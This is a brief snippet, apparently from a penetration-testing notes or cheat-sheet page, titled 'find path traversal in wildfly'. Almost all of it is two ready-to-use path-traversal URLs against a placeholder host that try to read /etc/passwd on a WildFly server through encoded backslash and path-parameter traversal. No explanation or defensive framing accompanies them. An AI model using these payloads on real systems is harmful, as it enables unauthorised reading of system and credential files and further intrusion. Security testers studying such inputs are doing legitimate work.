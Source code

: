 ### find path traversal in wildfly
```
https://<rhost>/public/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd  
https://<rhost>/public/?path=//../../../../../../../../../../../../../../../../etc/passwd  
```

